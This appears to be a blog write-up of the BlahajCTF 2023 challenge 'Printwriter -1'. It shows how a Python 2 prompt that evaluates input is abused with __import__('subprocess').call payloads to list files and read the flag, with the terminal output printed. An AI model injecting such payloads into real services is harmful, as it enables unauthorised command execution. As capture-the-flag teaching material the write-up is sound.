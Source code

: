 ```yaml
---
title: Printwriter -1
date: 2023-12-05
tags:
- misc
categories: BlahajCTF 2023
---
```


> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):


{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/blahaj<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi</DIV>
{% endccb %}

So we can get shell simply with:
```py
__import__("subprocess").call()
```

{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/nightmare/Stack_Buffer_Overflow<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["ls","-l"])</span>
total 8
<span class="code-highlight">-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt</span>
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["cat","flag.txt"])</span>
<span class="diff-highlight-add">blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}</span></DIV>
{% endccb %}
